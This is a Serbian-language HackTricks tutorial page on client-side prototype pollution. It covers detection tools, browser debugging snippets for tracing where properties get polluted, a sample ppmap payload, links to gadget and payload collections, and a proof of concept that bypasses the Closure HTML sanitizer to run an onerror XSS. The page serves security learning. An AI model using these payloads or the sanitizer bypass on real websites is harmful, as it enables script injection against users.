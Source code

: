 # Klijentska Strana Zagađenja Prototipa

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Otkriće korišćenjem Automatskih alata

Alati [**https://github.com/dwisiswant0/ppfuzz**](https://github.com/dwisiswant0/ppfuzz?tag=v1.0.0)**,** [**https://github.com/kleiton0x00/ppmap**](https://github.com/kleiton0x00/ppmap) **i** [**https://github.com/kosmosec/proto-find**](https://github.com/kosmosec/proto-find) mogu se koristiti za **pronalazak ranjivosti na zagađenje prototipa**.

Pored toga, možete koristiti i **proširenje za pretraživač** [**PPScan**](https://github.com/msrkp/PPScan) da **automatski** **skenirate** **stranice** koje **pristupate** za ranjivosti na zagađenje prototipa.

### Debagovanje gde se svojstvo koristi <a href="#id-5530" id="id-5530"></a>

{% code overflow="wrap" %}
```javascript
// Stop debugger where 'potentialGadget' property is accessed
Object.defineProperty(Object.prototype,'potentialGadget', {__proto__:null, get(){
console.trace();
return 'test';
}})
```
{% endcode %}

### Pronalaženje uzroka zagađenja prototipa <a href="#id-5530" id="id-5530"></a>

Kada je ranjivost zagađenja prototipa identifikovana pomoću nekog od alata, i ako kod nije previše složen, možete pronaći ranjivost pretražujući ključne reči kao što su `location.hash`, `decodeURIComponent` ili `location.search` u Chrome Developer Tools. Ovaj pristup vam omogućava da precizno odredite ranjivi deo JavaScript koda.

Za veće i složenije kodne baze, jednostavna metoda za otkrivanje ranjivog koda uključuje sledeće korake:

1. Koristite alat za identifikaciju ranjivosti i dobijanje payload-a dizajniranog da postavi svojstvo u konstruktoru. Primer koji pruža ppmap može izgledati ovako: `constructor[prototype][ppmap]=reserved`.
2. Postavite breakpoint na prvu liniju JavaScript koda koja će se izvršiti na stranici. Osvežite stranicu sa payload-om, pauzirajući izvršenje na ovom breakpoint-u.
3. Dok je izvršenje JavaScript-a pauzirano, izvršite sledeći skript u JS konzoli. Ovaj skript će signalizirati kada je svojstvo 'ppmap' kreirano, pomažući u lociranju njegovog porekla:
```javascript
function debugAccess(obj, prop, debugGet=true){

var origValue = obj[prop];

Object.defineProperty(obj, prop, {
get: function () {
if (debugGet)
debugger;
return origValue;
},
set: function(val) {
debugger;
origValue = val;
}
});

};

debugAccess(Object.prototype, 'ppmap')
```
4. Vratite se na karticu **Sources** i izaberite “Resume script execution”. JavaScript će nastaviti sa izvršavanjem, a 'ppmap' svojstvo će biti zagađeno kao što se očekuje. Korišćenje datog snippeta olakšava identifikaciju tačne lokacije gde je 'ppmap' svojstvo zagađeno. Istraživanjem **Call Stack**, mogu se posmatrati različiti stekovi gde je došlo do zagađenja.

Kada odlučujete koji stek da istražujete, često je korisno ciljati stekove povezane sa JavaScript bibliotečkim datotekama, jer se zagađenje prototipa često dešava unutar ovih biblioteka. Identifikujte relevantan stek ispitivanjem njegove povezanosti sa bibliotečkim datotekama (vidljivo sa desne strane, slično slici koja je data kao vodič). U scenarijima sa više stekova, kao što su oni na linijama 4 i 6, logičan izbor je stek na liniji 4, jer predstavlja početno zagađenje i time osnovni uzrok ranjivosti. Klikom na stek bićete preusmereni na ranjivi kod.

![https://miro.medium.com/max/1400/1\*S8NBOl1a7f1zhJxlh-6g4w.jpeg](https://miro.medium.com/max/1400/1\*S8NBOl1a7f1zhJxlh-6g4w.jpeg)

## Pronalaženje Script Gadgets

Gadget je **kod koji će biti zloupotrebljen kada se otkrije PP ranjivost**.

Ako je aplikacija jednostavna, možemo **pretraživati** za **ključnim rečima** kao što su **`srcdoc/innerHTML/iframe/createElement`** i pregledati izvorni kod i proveriti da li **dovodi do izvršavanja javascripta**. Ponekad, pomenute tehnike možda uopšte ne pronađu gadgete. U tom slučaju, čista revizija izvornog koda otkriva neke lepe gadgete kao što je donji primer.

### Primer pronalaženja PP gadgeta u kodu Mithil biblioteke

Proverite ovaj članak: [https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/](https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/)

## Rekompilacija payload-a za ranjive biblioteke

* [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution)
* [https://github.com/BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution)

## Bypass HTML sanitizera putem PP

[**Ova istraživanja**](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) prikazuje PP gadgete koji se koriste za **obići sanitizacije** koje pružaju neke biblioteke HTML sanitizera:

* **sanitize-html**

<figure><img src="../../../.gitbook/assets/image (1140).png" alt="https://research.securitum.com/wp-content/uploads/sites/2/2020/08/image-7.png"><figcaption></figcaption></figure>

* **dompurify**

<figure><img src="../../../.gitbook/assets/image (1141).png" alt="https://research.securitum.com/wp-content/uploads/sites/2/2020/08/image-9.png"><figcaption></figcaption></figure>

* **Closure**
```html
<!-- from https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/ -->
<script>
Object.prototype['* ONERROR'] = 1;
Object.prototype['* SRC'] = 1;
</script>
<script src=https://google.github.io/closure-library/source/closure/goog/base.js></script>
<script>
goog.require('goog.html.sanitizer.HtmlSanitizer');
goog.require('goog.dom');
</script>
<body>
<script>
const html = '<img src onerror=alert(1)>';
const sanitizer = new goog.html.sanitizer.HtmlSanitizer();
const sanitized = sanitizer.sanitize(html);
const node = goog.dom.safeHtmlToNode(sanitized);

document.body.append(node);
</script>
```
## Reference

* [https://infosecwriteups.com/hunting-for-prototype-pollution-and-its-vulnerable-code-on-js-libraries-5bab2d6dc746](https://infosecwriteups.com/hunting-for-prototype-pollution-and-its-vulnerable-code-on-js-libraries-5bab2d6dc746)
* [https://blog.s1r1us.ninja/research/PP](https://blog.s1r1us.ninja/research/PP)
* [https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/#:\~:text=my%20challenge.-,Closure,-Closure%20Sanitizer%20has](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
